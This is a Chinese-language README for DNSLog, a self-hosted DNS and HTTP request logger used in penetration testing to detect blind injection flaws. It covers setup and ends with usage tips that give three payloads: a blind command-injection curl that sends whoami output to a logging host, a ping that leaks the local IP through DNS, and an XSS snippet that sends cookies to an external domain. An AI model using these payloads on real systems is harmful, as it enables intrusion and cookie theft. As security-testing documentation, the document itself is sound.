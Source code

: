 ```
 ____  _   _ ____  _
|  _ \| \ | / ___|| |    ___   __ _
| | | |  \| \___ \| |   / _ \ / _` |
| |_| | |\  |___) | |__| (_) | (_| |
|____/|_| \_|____/|_____\___/ \__, |
                              |___/
```
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)   [![License](https://img.shields.io/badge/license-GPLv2-red.svg)](https://raw.githubusercontent.com/BugScanTeam/dnslog/master/GPL-2.0) 

简介
---

DNSLog 是四叶草安全旗下 BugscanTeam 打造的一款监控 DNS 解析记录和 HTTP 访问记录的工具，在检测盲注类漏洞时有着非常重要的作用，是分布式漏洞扫描框架 BugScan 中核心库之一。

DNSLog 基于 Django 框架编写，将 DNSServer 集成进 DNSLog 中，使用者可轻松搭建使用环境。

你可以点击这里访问： [演示站点](https://admin.dnslog.link)

安装
---

1. 获取源代码

 你可以通过用 Git 来克隆代码仓库中的最新源代码

 ```
 $ git clone git@github.com:BugScanTeam/DNSLog.git
 ```

 或者你可以点击 [这里](https://github.com/BugScanTeam/DNSLog/archive/master.zip) 下载最新的源代码 zip 包,并解压

 ```
 $ wget https://github.com/BugScanTeam/DNSLog/archive/master.zip
 $ unzip master.zip
 ```

2. 安装依赖环境

 DNSLog 使用前需要安装 Django 1.8 与 dnslib ，如果已经安装可跳过此步

 ```
 $ cd dnslog
 $ pip install -r requirements.pip
 ```
3. 域名与公网 IP 准备
    
    搭建并使用 DNSLog，你需要拥有两个域名，一个域名作为 NS 服务器域名(例:a.com)，一个用于记录域名(例: b.com)。还需要有一个公网 IP 地址(如：1.1.1.1)
    
    **注意：b.com 的域名提供商需要支持自定义 NS 记录, a.com 则无要求。**
    
    1. 在 a.com 中设置两条 A 记录：

        ```
        ns1.a.com  A 记录指向  1.1.1.1        
        ns2.a.com  A 记录指向  1.1.1.1
        ```
    2. 修改 b.com 的 NS 记录为 1 中设定的两个域名

        > 本步骤中，需要在域名提供商提供的页面进行设置，部分域名提供商只允许修改 NS 记录为已经认证过的 NS 地址。所以需要找一个支持修改 NS 记录为自己 NS 的域名提供商。
    
    **注意: NS 记录修改之后部分地区需要 24-48 小时会生效**

4. 修改配置文件
    
 修改 `dnslog/dnslog/settings.py` 文件中相关配置：
 
 > 配置文件中的域名对应关系与步骤 3 相同
 
 ```
    # 做 dns 记录的域名
    DNS_DOMAIN = 'b.com'
    
    # 记录管理的域名, 这里前缀根据个人喜好来定
    ADMIN_DOMAIN = 'admin.b.com'
    
    # NS域名
    NS1_DOMAIN = 'ns1.a.com'
    NS2_DOMAIN = 'ns2.a.com'
    
    # 服务器外网地址
    SERVER_IP = '1.1.1.1'
 ```

5. 启动服务

 ```
 $ cd dnslog/
 $ sudo python manage.py runserver 0.0.0.0:80
 ```
 
 **Django web 默认启动端口为 8000，若要启动在 80 端口则需要 root 权限**
 
 > 如果不想启动在 80 端口，但又想在使用 HTTP 的时候不加端口号，可以自己安装 Nginx，对 b.com 做反向代理
 
 Nginx 反向代理参考脚本：
 
```nginx
server {
        listen 443;
        ssl on;
        ssl_certificate /etc/nginx/certs/*.xxx.com/fullchain;
        ssl_certificate_key /etc/nginx/certs/*.xxx.com/key;
        server_name *.hackhttp.com;
        location /static {
                alias /var/www/dnslog/static;
        }
        location / {
                proxy_pass http://127.0.0.1:8000/;
                proxy_redirect off;
                proxy_set_header Host $host;
                proxy_set_header X-Real-IP $remote_addr;
                proxy_set_header X-Forwarded-For $remote_addr;
                proxy_set_header X-Forwarded-Proto $scheme;
        }

}
```

6. https泛证书申请(let's encrypt)

    1. 安装acme `curl  https://get.acme.sh | sh`
    1. 单独启动dns服务器 `python zoneresolver.py`
    1. 添加acme的api脚本
        ```bash
        cp acme.sh/dns_log.sh /root/.acme.sh/dnsapi/dns_log.sh
        chmod +x /root/.acme.sh/dnsapi/dns_log.sh
        ```
    1. 申请证书

        `acme.sh --issue -d "*.xxx.com" --dns dns_log --debug --dnssleep 10`

    1. 安装证书

        ```bash
        mkdir -p /etc/nginx/certs/\*.xxx.com/
        acme.sh --install-cert -d \*.xxx.com \
        --cert-file /etc/nginx/certs/\*.xxx.com/cert \
        --key-file /etc/nginx/certs/\*.xxx.com/key \
        --fullchain-file /etc/nginx/certs/\*.xxx.com/fullchain \
        --reloadcmd "nginx -s reload"
        ```

    acme会自动检查证书是否过期，当申请到新证书后也会自动重启nginx让证书生效

---

### 站点管理

 启动服务成功后，访问 `http://b.com/admin/` 进入后台
 
 > 管理员用户名密码默认均为 admin
 
 如果忘记管理员密码，可进入 dnslog 目录下，执行如下命令重设管理员密码
 
 ```
 python manage.py changepassword admin 
 ```

### 普通用户

 在 User 表中添加使用用户的信息，表中默认已经存在 `test/123456` 这个用户。
 
 访问 `http://admin.b.com` (ADMIN_DOMAIN 指定的域名)，输入用户名密码登录。
 
 访问后会在下方看到自己的二级域名，例如 test.b.com，当请求 test.b.com 这个二级域名下的任意子域时，都会被记录，例如: demo.test.b.com。

使用技巧
---

### 命令盲注利用

对于一些命令盲注类的漏洞，可以通过 DNSLog 中的 WebLog 部分将其转化为有回显的命令执行：

```
curl "http://testhash.test.dnslog.link/?`whoami`"
```

**在 Web 控制台下看到结果：**

\#    |    path    |    ip    |    ua    | date
---|---|---|---|---
146    | testhash.test.dnslog.link/?root |    xxx.xxx.xxx.xxx |    curl/7.43.0    | 2016-05-10 07:36:47


### DNS记录中获取源IP地址

详见 [issue#3](https://github.com/BugScanTeam/DNSLog/issues/3)

```
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.dnslog.link
```

效果如下：

```
➜  ~ ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.dnslog.link
PING 192.168.10.167.test.dnslog.link (106.186.118.146): 56 data bytes
64 bytes from 106.186.118.146: icmp_seq=0 ttl=52 time=259.491 ms
64 bytes from 106.186.118.146: icmp_seq=1 ttl=52 time=307.566 ms
64 bytes from 106.186.118.146: icmp_seq=2 ttl=52 time=352.757 ms

--- 192.168.10.167.test.dnslog.link ping statistics ---
3 packets transmitted, 3 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 259.491/306.605/352.757/38.082 ms
```

### XSS 盲打

在有 XSS 漏洞的页面加入类似如下代码：

```
var s=document.createElement('img');
s.src="http://xss.test.dnslog.link/?url="+document.location+"&cookie="+document.cookie;
document.head.appendChild(s);
```

以 `httpbin.org` 为例，一旦触发，在 WebLog 中可以看到：

\#    |    path    |    ip    |    ua    | date
---|---|---|---|---
146    | xss.test.dnslog.link/?url=http://httpbin.org/&cookie=_ga=GA1.2.17.142 |    xxx.xxx.xxx.xxx |    Mozilla/5.0 xxx    | 2016-06-18


相关链接
---

* [版权声明](./GPL-2.0)
* [BugScan 社区官网](http://www.bugscan.net)
* [DNSLog 示例站点](http://admin.dnslog.link/)
